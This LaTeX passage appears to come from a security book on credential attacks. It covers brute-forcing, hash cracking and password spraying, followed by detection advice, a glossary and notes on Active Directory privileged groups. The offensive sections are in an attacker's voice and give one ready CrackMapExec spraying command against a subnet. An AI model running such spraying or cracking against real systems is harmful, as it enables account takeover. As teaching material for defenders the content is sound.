Dictionary attacks are the first step. You don’t try \textbf{every} possible password from `aaaaaa` to `ZZZZZZ` unless you absolutely know that you’re dealing with a four-character PIN. Instead, you use real-world \textit{wordlists, }leaked password databases found on breach forums, and target lists based on social engineering\textit{.}

Did You Know

One wordlist that is the most popular known for garnering the most hits when used is the `rockyou.txt` text-based wordlist. 

People reuse passwords like `123456`, `qwerty`, `letmein`, and `Password1!`. These aren’t guesses. These are practically defaults. You start with that. Then you move into permutations: adding years, symbols, common substitutions. `Summer 2025!`, `Admin123`, `P@ssw0rd!` - they’re predictable, and you need to think like someone lazy, not clever.

Now, about tools. You’ve got options, and they all have their own strengths depending on what you want your outcome or goal to be. \textbf{Hydra} is the classic. Fast, versatile, supports tons of network protocols. \textbf{Medusa} is similar - some prefer it for its stability. \textbf{Ncrack} for more advanced use. If you’re targeting web logins, \textbf{Burp Suite} with custom intruder configus gives you full control, especially when dealing with CSRF tokens, headers, or JavaScript-laced forms. The point is: don’t let the tool run wild. You shape the attack. You control speed, delays, retries. You keep it under the radar.

Most important thing: you need intel before you strike. Don’t brute-force blindly. Recon the target. Look at the homepage, at its login page. Is there a CAPTCHA? A lockout message? Does it rate-limit? Analyze the HTTP responses. Watch for subtle behavior changes - response codes, timings, redirects. That tells you how the system reacts to failures. Then you tune your attack to fly just under that threshold. You don’t kick in the door; you lean on it until the lock cracks.

Brute-forcing is rarely your first move. It’s your last resort or your follow-up. Maybe you tried spraying and got nothing. Maybe you only have a handful of usernames, and no strong password leads. Then, maybe, it’s time to bring out the brute-force play. But always measure risk versus reward. If the target has solid defenses in place, you’ll get burned. If it’s soft and squishy and exposed? You’ll be in before they even realize the door was open.

Remember - brute-force is a hammer. And hammers are only useful when you’re hitting the right kind of nail. Don’t use it for everything. But when it’s time? Hit hard. Hit smart. And don’t miss.

Account Cracking

This is what I like to call the third tool in the account attacking trifecta. You’re not banging on doors anymore. You’re working with what you’ve already gathered. It’s post-exploitation. It’s war at the keyboard.

Cracking accounts is what happens \textbf{after} the breach. You’ve already gotten in, or you’ve already stolen something valuable - hashes, credential dumps, leaked databases. Now it’s time to turn that raw loot into real access. This is offline work. Quiet. No alarms. No rate-limits. Just you and the data, grinding away, turning cryptography into plaintext one weak password at a time.

Let’s start with the basics. A password hash isn’t a password. It’s a one-way cryptographic fingerprint of a password. But the problem is, humans are lazy. They reuse passwords. They pick predictable ones. And the algorithms, while strong on paper, often run on hardware that doesn’t enforce proper cost. That’s your edge. If someone stored hashes using MD5, SHA1, or even unsalted NTLM, it’s game over. You’ll crack that wide open with minimal effort. You don’t break the hash - you \textbf{reverse-engineer} it by comparing it against known inputs. That’s the whole game.

Your first task is to collect the hashes. Maybe you dumped a SAM file from a Windows box. Maybe you exfiltrated a MySQL database or grabbed `/etc/shadow` from a *nix target. Doesn’t matter. The goal is to get those hashed credentials out of the system and into your cracking rig. Once you have them, you identify the algorithm - NTLM, `bcrypt`, SHA-256, `scrypt`. Tools like `hashid` or `hashcat –example-hashes` will help you sort that out fast.

Now comes the grind. You load up \textbf{Hashcat }or \textbf{JtR}, point them at your hash list, and let the war begin. If you’re doing it right, you’re using GPU acceleration - multiple cards, maybe even a rented cloud rig. This isn’t 2005; CPU cracking is dead. Speed is everything. NTLM hashes can be cracked at billions of guesses per second. Bcrypt? Much slower - but still vulnerable if the user picked garbage. You tune your attack style based on the algorithm.

There are several cracking modes, and you need to know when to use each.

\begin{itemize}
    \item \textbf{\textbf{Straight dictionary: }Run a big password list against the hashes. Simple. Fast. Works well against weak targets.}
    \item \textbf{\textbf{Rules-based: }Modify words on the fly - adding numbers, symbols, capitalizations. Takes your base dictionary and makes it dynamic in use.}
    \item \textbf{\textbf{Mask attacks: }For when you know part of the password - like it always starts with `Welcome` or ends in `2025!`.}
    \item \textbf{\textbf{Hybrid: }Combine wordlists with brute-force components, like appending all two-digit numbers to every word.}
    \item \textbf{\textbf{Rainbow tables: }Precompiled hash lookups. Less relevant these days unless you’re targeting really outdated systems.}
\end{itemize}
And don’t forget: salting changes the game. A \textit{salt} is a random value added to each password before hashing to prevent reuse. Good salts make rainbow tables worthless and slow down cracking massively. But a lot of systems mess this up. They reuse salts, store them insecurely, or don’t use them at all. Your job is to figure out what kind of system you’re first dealing with. If it’s lazy or misconfigured, cracking becomes easy again.

The goal is always the same: extract real, working passwords from that pile of hashes. Once you have them, you test them. Maybe they still work on the original system. Maybe the user reused the same password across platforms - email, VPN, cloud services. One cracked password can light up an entire infrastructure. Especially if it belongs to an admin.

This is where you go from attacker to owner. Not just access, but \textbf{persistence. }You start implanting backdoors, escalating privileges, pivoting inside the network. Or maybe you go black market - dump the cracked credentials on dark web forums, sell the logins in bulk, or trade them for access to even bigger targets that are being publicly sold and traded on the deep and dark web. Credential cracking has a whole economy behind it. It’s not just a technique. It’s now a business model.

And to be clear: cracking isn’t some niche skill. It’s fundamental. Every pentester, red teamer, or adversarial group uses it. Because no matter how advanced the defenses are, they all rely on users making good password choices. And users don’t. They never have. They never will. They’re predictable, lazy, and rushed - and that makes them exploitable.

So build your rigs. Gather your dictionaries and tune your rulesets. Chip away at those hashes, knowing that behind every cracked one is a real person’s access - and likely a whole system behind it. This is where quiet, patient work turns into loud, real-world compromise.

And once you’re in? You’re not guessing anymore. You’re pwning.

\subsubsection{\textbf{Tools}}

\begin{itemize}
    \item CrackMapExec

    \item Hydra

    \item Burp Suite (web portals)

\end{itemize}

\subsubsection{\textbf{Attack Code}}

crackmapexec smb 192.168.1.0/24 -u users.txt -p 'Spring2024!'

\subsubsection{\textbf{Defense}}

If you’re defending a system and you don’t understand the attacker’s view, you’re already behind. You don’t win by hoping bad things go away or won’t happen - you win by assuming they already have. That’s the posture you need as a defender. Security isn’t about tools or checklists. It’s about adversarial thinking. You’re in a constant game of chess with people who are patient, focused, and creative in their move-making. You’re playing defense with a reactive mindset, they’ll walk right past you. Your job is to think ahead, not just react. Every log, every request, every system setting - it’s either helping you or helping them.

Attackers have the advantage of choice. They choose the time, the vector, the place. You? You’re stuck defending everything, all the time, without room for error. They only need to be right once. You need to be right constantly. That pressure forces discipline. It forces strategies. And most importantly, it forces clarity. You have to understand the attacker’s toolkit - not because you want to use it, but because it’s your job to spot it in motion before it becomes a full-blown breach.

Understanding attacks like password spraying, brute-force attempts, and offline cracking isn’t optional. It’s the frontline. These aren’t just techniques - they’re the reality of how most real-world intrusions start. You can obsess with zero-days, malware payloads, or nation-state actors all you want. But most successful compromises still come down to weak credentials, poor configuration, and a missed log line. The kill chain almost always begins with something simple - and the defenders who survive know how to see it coming.

Defending isn’t just about building walls of layered security mechanisms - it’s also about knowing what kind of threats those walls need to stop. A good defender doesn’t chase every possible scenario. You prioritize. You look at the threat landscape and focus on what actually happens, not what \textit{\textbf{might}} happen. Credential-based attacks do happen. They are very real. They’re cheap, scalable, and successful when deployed. They’re used by script kiddies mainly, ransomware groups, and APTs alike. If you’re not building your defense stack around this reality, you’re wasting cycles.

Here’s the brutal truth: most environments are still vulnerable to simple attacks. I’m not talking about zero-day exploits or complex malware chains. I’m talking about credential reuse, predictable passwords, and login endpoints exposed to the internet with zero rate-limiting applied. If that describes your setup, then you’re not just on the radar - you’re a blinking red target.

You don’t fight off attackers with wishful thinking. You do it with visibility, layered controls, and a firm grasp on what ‘normal’ looks like in your environment. If you can’t tell a legitimate login from a slow-motion spray attack, you’re flying high and blind. And if your users pick passwords like `Company2025!`, you can’t afford to ignore authentication hygiene. Your entire infrastructure - firewalls, EDR, patching - means nothing if someone can walk in the front door using a password they guessed from LinkedIn.

Let’s be clear about something else: good attackers know your policies better than your users do. If you enforce quarterly password resets, they’ll time their attacks around that cycle. If you use SSO or MFA, they’ll look for fallback paths and legacy endpoints you forgot about. They read your documentation online, they fingerprint your infrastructure online, and they treat your login portals like open books. You can’t hide behind ‘security via obscurity.’ You fight back by building bullet-proof layered, intentional defenses.

This is why mindset matters more than the tools themselves. It’s not about which vendor’s solution you deploy. It’s about how well you understand the battle. Tools will and do fail. Logs don’t always show you what matters. But if you understand what attackers are doing - and \textbf{why} - you can, in anticipation of, build traps, detect anomalies, and respond faster than they’ll expect you to. That’s what it means to \textit{defend with purpose. }You don’t just react. You counter.

\textbf{What You’re Really Up Against}

You’re not defending against a toolset. You’re defending against a mindset. That’s a hard pill for many teams to swallow. They treat security like an engineering checklist, and when something goes awry, they blame the product. But the real adversary isn’t Burp Suite or Hashcat - it’s the person wielding them. And that person is often more patient, more curious, and more invested than the team that is defending the target.

Understand the economics of your enemy. Brute-force attacks, password spraying, and account cracking are cheap. They cost almost nothing to execute. \$10US gets you a server. \$50US gets you a fresh list of valid email addresses to abuse. Public wordlists are free. Cracking rigs can be rented by the hour. You’re defending against an industrial process - optimized, modular, and persistent. You can’t beat it with static defenses. You beat it by forcing cost back onto the attacker.

Attackers don’t care about your firewall rules. They care if your VPN portal is exposed to the internet and if you’re still using “Spring2025!” as a default password. They care about your forgotten admin accounts, your legacy services with no MFA, and your failure to log failed attempts in a centralized system. These are the cracks they crawl through. Not because they’re magic - but because they’re \textbf{everywhere.}

You’ve probably already been tested. You just didn’t know it. The password spray that hit your login endpoint last week didn’t set off any alarms because it was smart - one password, thousands of usernames, stretched over hours. Your rate-limiting didn’t trip, and your logs were buried in noise or overwritten because they were full. The attacker left, or maybe they didn’t. Maybe they got one valid hit. You wouldn’t know unless you were watching for it. That’s what you’re up against - attacks designed to succeed by \textbf{looking like nothing happened.}

Credential-based attacks scale with precision. Automation means one attacker can target a hundred organizations in parallel. If you environment is even slightly compromised, they’ll find the weakest link before your SOC finishes morning coffee. And they’ll come back. These aren’t one-off hits. These are repeatable processes. Think pipelines, not hackers in hoodies. This is professionalized exploitation.

You need to start asking yourself better questions. Not “Are we using MFA?” but “Is MFA enforced everywhere, including on backup login paths?” Not “Are we logging login failures?” But “Do we correlate failures across accounts over time?” Not “Are we safe?” but “Where do we expect attackers to hit, and what happens when they do?” Security isn’t about binary, static answers. It’s about probabilities and pressure points.

That’s the mental shift that separates teams that survive from teams that get breached. You stop treating credential attacks as low-tier noise and start recognizing them for what they truly are: the front line of modern compromise. Once you understand the game, you can start playing to win.

\textbf{Defending Against Password Spraying Attacks}

Password spraying isn’t quiet. Although that’s the entire point of the attack. It’s not about brute-force - it’s about \textbf{plausibility}. A single failed login to one user account every few hours? That won’t set off your alert systems - unless you’ve designed it to. Most orgs haven’t. They track account lockouts or a high number of failed logins per account, but spraying bypassses both. It targets the \textbf{horizontal plane} - a single password against hundreds or thousands of users. It stays low, spreads out, and blends in.

So how do you spot it? You don’t look for noise. You look for \textbf{consistency}. Same password, different usernames, repeated across a timeframe. You pivot your detection model to focus on \textbf{patterns across users}, not just within one. A traditional SIEM may not be wired for this, but you can shape canned queries to catch it. Look for authentication failures that occur from the same source IP or agent, hitting different accounts, with an identical password attempt. That’s the thread you pull.

Now here’s the trap a lot of defenders fall into: account lockouts. They crank down lockout thresholds - 3 or 5 failed logins, and the account is locked. That might seem smart and all, but it turns into \textbf{denial of service bait}. Attackers can abuse it to lock out every user in the company with just a few failed attempts each. Suddenly your entire organization is frozen, and your helpdesk is underwater. That’s not defense. That’s self-sabotage. So forget hard lockouts. Think of adaptive\textbf{ response} instead.

What does adaptive look like? Start with \textbf{progressive backoff} - the more failures from a source, the longer you delay responses. Add rate-limiting per IP, per user, and even per password. Most systems miss the last one. If you see a single password tried across dozens of accounts, stop the bleed. Throttle or block it outright. That pattern almost never happens by accident. You don’t need AI for this - you need common sense in your log logic.

Geo-behavioral controls help too. If you’re seeing authentication attempts for local user accounts from foreign IP ranges, especially in volume, that should flag early. Most password sprays are automated and launched from known cloud providers - DigitalOcean, AWS, OVH, Hetzner. Map those IP ranges and monitor login attempts that originate from them. No need to block them globally, but watch them like a hawk. They’re breeding grounds for credential abuse.

Let’s talk about MFA - everyone’s favorite silver bullet. Yes, multi-factor authentication kills most spray attacks dead, but only if it is universal and enforced. If you leave legacy endpoints open - SMTP auth, IMAP, or VPN gateways with fallback passwords - you’ve left the back door wide open. Attackers will find the path of least resistance. Your MFA doesn’t matter if your protocols still allow for password-only access somewhere in the stack. Audit everything. Rip out or wrap every endpoint with security policy enforcements.

Another vector you need to close: \textbf{shared credentials. }For starters this kills any accountability. Period. Secondly, you’d be shocked how many companies still use shared local admin accounts or generic department logins. These get hit hard by sprays because they’re predictable - “admin,” “marketing,” “sales,” - and they’re often left exempt from MFA or password expiration. Treat every shared account like a VIP target. Either eliminate it or wrap it in iron.

And don’t forget the human layer (what I like to call Layer 8 of the OSI model). Password policies shouldn’t just tick compliance boxes on some checklist. They should force unpredictability. Ban common patterns - `Season+Year`, `CompanyName+123`,. Enforce long passwords, sure - but more importantly, \textbf{block known bad passwords outright}. Use breached password checks in near-real-time. Microsoft, Okta, and Duo all support this. If the user is trying to use a password that is in the top 1,000 most commonly globally, deny it. No debate. No override.

Finally, visibility is non-negotiable. You need full logging on every auth attempt. Successful and failed. IP, user agent, timestamp, endpoint - all of it. Pipe that data into something you can query fast. Create dashboards that track login failures across accounts, and watch for slow-motion sprays that don’t trigger alerts on their own. Remember: they’re trying to blend in. Your job is to zoom out and see the mosaic for what it is.

\subsection{\textbf{Glossary}}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{A} \\
\hline

\end{tabular}

\end{table}

\textbf{Assume Breach}

"Assume breach" is a security principle and a mindset that dictates that a security system should be designed and operated under the assumption that a breach has already occurred or will inevitably occur. It emphasizes proactive measures to detect, respond to, and mitigate the impact of breaches rather than solely focusing on preventing them. This approach is a core component of Zero Trust Architecture, which aims to minimize the impact of potential breaches by limiting access and trust within the network.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{B} \\
\hline

\end{tabular}

\end{table}

\textbf{Backdoor}

A backdoor is a secret method of bypassing normal authentication or security measures to gain access to a computer system, network, or application. It's like a hidden entrance that allows attackers to bypass security controls and maintain persistent access.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{C} \\
\hline

\end{tabular}

\end{table}

\textbf{Canary Tokens}

Canary tokens are digital tripwires used in cybersecurity to detect unauthorized access to sensitive data or systems. They are essentially decoy files, URLs, or API keys strategically placed within a network or application, designed to trigger an alert when accessed by an attacker or malicious actor. This early warning system helps defenders identify potential breaches and respond quickly.

\textbf{Credential Hygiene}

Credential hygiene refers to the practices and processes involved in managing and protecting authentication credentials like passwords, tokens, and keys. It's crucial for maintaining security across various systems and applications, particularly in CI/CD pipelines and SaaS environments. Effective credential hygiene minimizes the risk of unauthorized access, data breaches, and other security incidents.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{D} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{E} \\
\hline

\end{tabular}

\end{table}

\textbf{External Trust}

An external trust in Active Directory is a trust relationship established between two domains in different forests. It allows users in one domain to access resources in the other domain, even though the domains are not part of the same forest. This type of trust is often used when there is a need for resource sharing between organizations with separate Active Directory environments.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{F} \\
\hline

\end{tabular}

\end{table}

\textbf{Forest Trust}

Forest trusts in Active Directory are a type of trust relationship established between the root domains of two separate Active Directory forests. They allow users and resources in one forest to be accessed by users in the other forest, effectively creating a bridge between the two separate domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{G} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{H} \\
\hline

\end{tabular}

\end{table}

\textbf{HONEYTOKENS}

Honeytokens are decoy elements, like fake data or credentials, strategically placed within a system to detect unauthorized access and malicious activity. They act as tripwires, triggering alerts when accessed by attackers, thus revealing their presence and methods. Unlike honeypots, which are entire systems, honeytokens are small, discrete components designed to be part of real systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{I} \\
\hline

\end{tabular}

\end{table}

\textbf{Interdomain}

Interdomain refers to something existing or occurring between two or more domains. In networking, it specifically relates to routing traffic between different autonomous systems (AS). It can also refer to courses that integrate knowledge from two different domains.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{J} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{K} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{L} \\
\hline

\end{tabular}

\end{table}

\textbf{Local Security Authority (LSA)}

The Local Security Authority (LSA) is a security subsystem within the Windows operating system that manages and enforces local security policies. It's responsible for crucial tasks like authenticating users during sign-in, verifying passwords, and handling access tokens. Essentially, the LSA acts as a gatekeeper, controlling access to resources and ensuring only authorized users and processes can interact with the system. 

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{M} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{N} \\
\hline

\end{tabular}

\end{table}

\textbf{NTDS.dit File}

NTDS.dit, short for New Technology Directory Services Directory Information Tree, is the central database for Microsoft Active Directory Domain Services (AD DS). It's a critical component that stores all the information about objects within an Active Directory domain, including users, groups, computers, and their associated attributes, including password hashes. This file essentially powers authentication and authorization across an organization's network, processing requests, storing password information securely, and managing group policy settings.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{O} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{P} \\
\hline

\end{tabular}

\end{table}

\textbf{Protocol Stack}

A protocol stack, also known as a network stack, is a hierarchical set of communication protocols organized into layers. Each layer performs a specific function and relies on the services of the layer below it, while providing services to the layer above. This layered approach simplifies the design, implementation, and troubleshooting of complex network communication systems.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Q} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{R} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{S} \\
\hline

\end{tabular}

\end{table}

\textbf{Service Principal Name (SPN)}

A Service Principal Name (SPN) is a unique identifier for a service instance, used in Active Directory for Kerberos authentication. It links a service to a specific service account, enabling clients to locate and authenticate the service. SPNs are crucial for services like SQL Server, IIS, and others that use Kerberos for secure communication.

\textbf{Signature Validation}

Kerberos signature validation is a crucial security mechanism within the Kerberos authentication protocol, ensuring the integrity and authenticity of messages and tickets exchanged during authentication and authorization processes. It involves verifying digital signatures on various Kerberos components, primarily the Privileged Attribute Certificate (PAC), to prevent malicious tampering and unauthorized privilege escalation.

\textbf{Shadow Domain Admin}

A shadow domain admin refers to a user account that possesses administrator-level privileges within a domain, but is not officially part of the designated domain administrator group. These accounts often go unnoticed by security teams because they don't appear in standard administrative listings, making them a potential security risk.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{T} \\
\hline

\end{tabular}

\end{table}

\textbf{Total Domain Persistence}

Total domain persistence refers to an attacker's ability to maintain long-term, uninterrupted control over a compromised network or domain, even in the face of detection and attempts to remove them.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{U} \\
\hline

\end{tabular}

\end{table}

\textbf{User and Entity Behavior Analytics (UEBA)}

User and Entity Behavior Analytics (UEBA) is a cybersecurity solution that uses machine learning and data analytics to detect suspicious activities by analyzing the behavior of users and other entities within an organization's network. By establishing baseline behaviors, UEBA identifies anomalies that may indicate security threats, such as insider threats or compromised accounts.

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{V} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{W} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{X} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Y} \\
\hline

\end{tabular}

\end{table}

\begin{table}
\justifying

\begin{tabular}{l}
\textbf{Z} \\
\hline

\end{tabular}

\end{table}

 

AD-Recon: Beyond Domain Admins – Domain Controller \& AD Administration

\subsection{Key Terminology}

Active Directory Schema:

The Active Directory schema is a blueprint that defines the structure and rules for objects and their attributes within an Active Directory forest. It specifies what types of objects can be created (like users, computers, groups) and the properties (attributes) that each object can have. Essentially, it dictates how information is organized and stored in the Active Directory database.

Azure Active Directory (Azure AD):

Azure Active Directory (Azure AD), now known as Microsoft Entra ID, is a cloud-based identity and access management service. It allows organizations to manage users, groups, and access to resources in the cloud and on-premises. Essentially, it acts as a directory service and an identity provider, enabling secure access to various Microsoft and third-party applications.

C-Suite:

In cybersecurity, the "C-suite" refers to the highest level of executives within an organization, typically including positions like CEO, CFO, CIO, and CISO. These leaders play a crucial role in cybersecurity by setting the strategic direction, allocating resources, and ensuring that security is integrated into the overall business strategy. Their involvement is essential for establishing a strong security posture and mitigating risks.

DCSync:

DCSync is a technique used in cybersecurity attacks to impersonate a Domain Controller (DC) and request replication data, including sensitive credentials, from other DCs in an Active Directory (AD) environment.

Domain Replication:

Domain replication is the process of copying and synchronizing directory data across multiple domain controllers (or other servers) within a network. This ensures that all domain controllers have the same information, improving reliability, performance, and data consistency. Essentially, any changes made to the directory on one domain controller are automatically replicated to all others.

Group Policy Object (GPO):

In Active Directory (AD), a Group Policy Object (GPO) is a virtual collection of settings that allows administrators to manage and configure user and computer settings within an AD environment. GPOs are fundamental for centrally controlling and standardizing settings across an organization's network, ensuring consistency and security.

Impersonation:

In cybersecurity, impersonation refers to a malicious tactic where an attacker pretends to be a trusted individual, organization, or system to deceive a target into taking actions that benefit the attacker. This often involves social engineering to manipulate victims into revealing sensitive information, transferring funds, or granting access to systems.

Password Hashes:

Password hashing is a security measure that converts passwords into irreversible, fixed-length strings of characters (hashes) using a one-way function. This prevents the storage of passwords in plain text, making them unreadable even if a database is compromised. Instead of storing the actual password, a system stores its hash, which can be compared to a user's input during login, ensuring authentication without exposing the original password.

Principle of Least Privilege (PoLP):

PoLP stands for the Principle of Least Privilege. It's a cybersecurity concept that dictates users, applications, and systems should only have the minimum necessary access rights to perform their intended tasks. This approach minimizes the potential damage from compromised accounts and reduces the attack surface for malicious actors.

Role-based Access Control (RBAC):

Role-Based Access Control (RBAC) is a security approach that restricts system access based on a user's role within an organization. Instead of granting permissions directly to users, RBAC assigns permissions to roles, and then users are assigned to those roles. This helps manage access effectively and ensures users only have the resources they need.

Security Event and Information Management (SIEM):

SIEM, which stands for Security Information and Event Management, is a cybersecurity solution that aggregates and analyzes security data from various sources within an IT environment. It helps organizations detect, investigate, and respond to security threats in real-time. Essentially, SIEM systems collect logs and event data, correlate that information, and provide a centralized view of security incidents, enabling faster and more effective threat detection and response.

\subsection{Introduction}

\subsubsection{A Sneaky AD Persistence Method}

\section{Active Directory Recon Without Admin Rights}

Active Directory has several levels of administration beyond the Domain Admins group. Securing Domain Controllers to Improve Active Directory Security is what defenders can do to to better secure Domain Controllers and by extension, Active Directory. This post provides information on how Active Directory is typically administered and the associated roles \& rights.

\begin{itemize}
    \item Domain Admins is the AD group that most people think of when discussing Active Directory administration. This group has full admin rights by default on all domain-joined servers and workstations, Domain Controllers, and Active Directory. It gains admin rights on domain-joined computers since when these systems are joined to AD, the Domain Admins group is added to the computer’s Administrators group.
    \item Enterprise Admins is a group in the forest root domain that has full AD rights to every domain in the AD forest. It is granted this right through membership in the Administrators group in every domain in the forest.
    \item Administrators in the AD domain, is the group that has default admin rights to Active Directory and Domain Controllers and provides these rights to Domain Admins and Enterprise Admins, as well as any other members.
    \item Schema Admins is a group in the forest root domain that has the ability to modify the Active Directory forest schema.
\end{itemize}
Since the Administrators group is the domain group that provides full rights to AD and Domain Controllers, it’s important to monitor this group’s membership (including all nested groups). The Active Directory PowerShell cmdlet “Get-ADGroupMember” can provide group membership information.

Default groups in Active Directory often have extensive rights – many more than typically required. For this reason, we don’t recommend using these groups for delegation. Where possible, perform custom delegation to ensure the principle of least privilege is followed. The following groups should have a “DC” prefix added to them since the scope applies to Domain Controllers by default. Furthermore, they have elevated rights on Domain Controllers and should be considered effectively Domain Controller admins.

\begin{itemize}
    \item Backup Operators is granted the ability to logon to, shut down, and perform backup/restore operations on Domain Controllers (assigned via the Default Domain Controllers Policy GPO). This group cannot directly modify AD admin groups, though associated privileges provides a path for escalation to AD admin. Backup Operators have the ability to schedule tasks which may provide an escalation path. They also are able to clear the event logs on Domain Controllers.
    \item Print Operators is granted the ability to manage printers and load/unload device drivers on Domain Controllers as well as manage printer objects in Active Directory. By default, this group can logon to Domain Controllers and shut them down. This group cannot directly modify AD admin groups.
    \item Server Operators is granted the ability to logon to, shut down, and perform backup/restore operations on Domain Controllers (assigned via the Default Domain Controllers Policy GPO). This group cannot directly modify AD admin groups, though associated privileges provides a path for escalation to AD admin.
\end{itemize}
To a lesser extend, we’ll group Remote Desktop Users into this category as well.

Remote Desktop Users is a domain group designed to easily provide remote access to systems. In many AD domains, this group is added to the “Allow log on through Terminal Services” right in the Default Domain Controllers Policy GPO providing potential remote logon capability to DCs.

We also see that many times the following is configured via GPO linked to the Domain Controllers OU:

\begin{itemize}
    \item Remote Desktop Users: often granted “Allow log on through Terminal Services” right via Group Policy linked to the Domain Controllers OU.
    \item Server Operators: granted “Allow log on through Terminal Services” right via Group Policy linked to the Domain Controllers OU.
    \item Server Operators: granted “Log on as a batch job” right via GPO providing the ability to schedule tasks.
\end{itemize}
Review the GPOs linked to the Domain and the Domain Controllers OU and ensure the GPO settings are appropriate.

We often find that a servers GPO is also linked to the Domain Controllers OU and it adds a “Server Admins” group to the local Administrators group. Since Domain Controllers don’t have a “local” Administrators group, the DC updates the domain Administrators group by adding Server Admins. This scenario makes all members of Server Admins Active Directory admins.

Any group/account granted logon locally rights to Domain Controllers should be scrutinized.

Server Operators \& Backup Operators have elevated rights on Domain Controllers and should be monitored. The Active Directory PowerShell cmdlet “Get-ADGroupMember” can provide group membership information.

 Other default groups with elevated rights:

\begin{itemize}
    \item Account Operators has the rights to modify accounts and groups in the domain. Also has the ability to log on to Domain Controllers by default (assigned via the Default Domain Controllers Policy GPO). This group cannot directly modify AD admin groups, though associated privileges provides a path for escalation to AD admin.
    \item DNSAdmins has administrative access to Microsoft Active Directory DNS and is often granted the ability to logon to Domain Controllers.

Note that by default, members of the DNSAdmins group are able to run a DLL on a Domain Controller which could provide privilege escalation to Domain Admin rights: 
    \item Group Policy Creator Owners can create, modify, and delete Group Policies in the domain.
\end{itemize}
Most of the rights granted to groups and accounts on Domain Controllers is applied by the “Default Domain Controllers Policy” Group Policy. These are typically defined in the User Rights Assignment section which we review when performing an Active Directory Security Assessment since it is often very enlightening as to who has rights to DCs. The settings in the Default Domain Controllers Policy have changed over the years from Windows 2000 to now. Note that if you promoted Active Directory with a Windows 2000 or 2003 server, this policy will still contain those original settings, even when running Windows Server 2016 (assuming no one changed the policy settings).

 Sensitive Domain Controller User Rights Assignments:

\begin{itemize}
    \item Allow log on locally
This policy setting determines which users can start an interactive session on the computer. Users must have this user right to log on over a Remote Desktop Services or Terminal Services session that is running on a Windows-based member computer or domain controller.

Note:

Users who do not have this right are still able to start a remote interactive session on the computer if they have the Allow logon through Remote Desktop Services right.

    \item Back-up files \& directories
This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system. This user right is effective only when an application attempts access through the NTFS backup application programming interface (API) through a backup tool such as NTBACKUP.EXE. Otherwise, standard file and directory permissions apply.

This user right is similar to granting the following permissions to the user or group you have selected on all files and folders on the system:

Traverse Folder/Execute File

List Folder/Read Data

Read Attributes

Read Extended Attributes

Read Permissions

Default on workstations and servers:

Administrators

Backup Operators

Default on domain controllers:

Administrators

Backup Operators

Server Operators

    \item Enable computer and user accounts to be trusted for delegation (SeEnableDelegationPrivilege)
This policy setting determines which users can set the Trusted for Delegation setting on a user or computer object.Security account delegation provides the ability to connect to multiple servers, and each server change retains the authentication credentials of the original client. Delegation of authentication is a capability that client and server applications use when they have multiple tiers. It allows a public-facing service to use client credentials to authenticate to an application or database service. For this configuration to be possible, the client and the server must run under accounts that are trusted for delegation.Only administrators who have the Enable computer and user accounts to be trusted for delegation credential can set up delegation. Domain admins and Enterprise admins have this credential. The procedure to allow a user to be trusted for delegation depends on the functionality level of the domain.The user or computer object that is granted this right must have write access to the account control flags. A server process running on a computer (or under a user context) that is trusted for delegation can access resources on another computer by using the delegated credentials of a client. However, the client account must have Write access to the account control flags on the object.

    \item Force shutdown from a remote system
This security setting determines which users are allowed to shut down a computer from a remote location on the network. This allows members of the Administrators group or specific users to manage computers (for tasks such as a restart) from a remote location.

    \item Log on as a batch job
This policy setting determines which accounts can log on by using a batch-queue tool such as the Task Scheduler service. When an administrator uses the Add Scheduled Task Wizard to schedule a task to run under a particular user name and password, that user is automatically assigned the Log on as a batch job user right. When the scheduled time arrives, the Task Scheduler service logs on the user as a batch job instead of as an interactive user, and the task runs in the user’s security context.

    \item Log on as a service
This policy setting determines which service accounts can register a process as a service. Running a process under a service account circumvents the need for human intervention.

    \item Manage auditing and security log
Determines which users can specify object access auditing options for individual resources such as files, Active Directory objects, and registry keys.

A user with this right can use the security tab in the security permission set editor’s Properties dialog box to specify auditing options for the selected object.

This user right is defined in the Default Domain Controller Group Policy object (GPO) and in the local security policy of workstations and servers.

By default, only administrators have the privilege to manage auditing and the security log.

 Note:

This policy does not allow a user to specify that file and object access auditing be enabled in general. In order for such auditing to take place, the Audit object access setting under Audit Policies must be configured.

Audited events are viewed in the security log of the Event Viewer . A user with this policy can also view and clear the security log.

    \item Restore files \& directories
This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories, and it determines which users can set valid security principals as the owner of an object.

Granting this user right to an account is similar to granting the account the following permissions to all files and folders on the system:

Traverse folder / execute file

Write

    \item Synchronize directory service data (SeSyncAgentPrivilege)
    \begin{itemize}
        \item Ensure that no accounts are assigned the Synchronize directory service data user right. Only domain controllers need this privilege, which they inherently have.
